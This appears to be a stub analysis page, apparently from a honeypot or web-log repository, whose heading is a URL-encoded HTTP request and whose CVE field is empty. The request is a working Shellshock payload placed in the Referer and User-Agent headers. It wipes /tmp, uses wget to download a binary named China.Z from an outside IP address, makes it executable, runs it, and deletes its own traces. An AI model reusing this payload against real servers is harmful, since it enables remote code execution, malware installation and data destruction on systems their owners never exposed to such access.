 # Analysis for /GET%20/%20HTTP/1.1%20Host:%203.7.80.171%20Referer:%20()%20%7B%20:;%20%7D;%20/bin/bash%20-c%20%22rm%20-rf%20/tmp/*;echo%20wget%20http://205.185.122.121/China.Z%20-O%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20echo%20By%20China.Z%20%3E%3E%20/tmp/Run.sh;echo%20chmod%20777%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20rm%20-rf%20/tmp/Run.sh%20%3E%3E%20/tmp/Run.sh;chmod%20777%20/tmp/Run.sh;/tmp/Run.sh%22%20Accept:*/*%20User-Agent:%20()%20%7B%20:;%20%7D;%20/bin/bash%20-c%20%22rm%20-rf%20/tmp/*;echo%20wget%20http://205.185.122.121/China.Z%20-O%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20echo%20By%20China.Z%20%3E%3E%20/tmp/Run.sh;echo%20chmod%20777%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20rm%20-rf%20/tmp/Run.sh%20%3E%3E%20/tmp/Run.sh;chmod%20777%20/tmp/Run.sh;/tmp/Run.sh%22%20Connection:Keep-Alive
## CVE: 
